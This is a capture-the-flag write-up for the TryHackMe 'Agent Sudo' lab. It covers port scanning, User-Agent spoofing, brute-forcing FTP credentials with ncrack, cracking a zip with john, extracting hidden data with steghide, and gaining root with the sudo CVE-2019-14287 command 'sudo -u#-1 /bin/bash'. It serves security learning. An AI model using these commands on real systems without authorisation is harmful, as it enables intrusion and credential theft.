 ```yaml
---
title: Agent Sudo - Easy THM
date: 2023-11-11 10:20:51 +/-0800
categories: [writeup, tryhackme]
writeup: :title
permalink: /agentsudo
tags: [thm, writeup, easy, linux, steganographie, web, CVE-2019-14287]     # TAG names should always be lowercase
---
```


## **`SCANNING`**

**Threader3000 scan:**

`python3 threader3000.py 10.10.49.159`

```python
Port 21 is open
Port 22 is open
Port 80 is open
```

**nmap scan:**

`nmap -p21,22,80 -sV -sC -T4 -Pn -oA 10.10.49.159 10.10.49.159`

```python
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

## `ENUMERATION`

We go on the webserver

`http://10.10.10.10/`

We spawn on a website, with a message talking about **USER-AGENT**

![website](/assets/agentSudo/website.png)


Try changing the USER-AGENT

![USER-AGENT](/assets/agentSudo/userAgent.png)

I got this new message

![AgentR](/assets/agentSudo/agentR.png)


It work, let's use the burp intruder to brute force all pages

![intruder](/assets/agentSudo/bruteForceUserAgent.png)

Found the path /C

![AgentC](/assets/agentSudo/agentC.png)

User chris ? Let's try to brute force is FTP creds

```ncrack -u 'chris' -P /usr/share/wordlists/rockyou.txt ftp://10.10.118.96```

Get the FTP credentials

### FTP ENUMERATION

Retrieve all files and folder:

`wget -m --no-passive ftp://chris:pass@<target>`

Get this files

![zip](/assets/agentSudo/zip.png)

Extract the zip

`binwalk -e cutie.png`

Get a hash possibly, look like base64

`echo 'QXJlYTUx' | base64 -d`

Next, we get a zip, we use zip2john

`zip2john 8702.zip > hash.txt`

decrypt the hash with john

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Next extract the jpg with the pass

`steghide extract -sf cute-alien.jpg`

Found a user and a pass, try to connect via ssh, it work !

## `PRIVESC`

We have the user.txt, let's search for the root

check sudo rights

`sudo -l`

![privesc](/assets/agentSudo/privesc.png)

Found a CVE on sudo version 1.8.27

https://www.exploit-db.com/exploits/47502

**The exploit:**

sudo -u#-1 /bin/bash

Got root !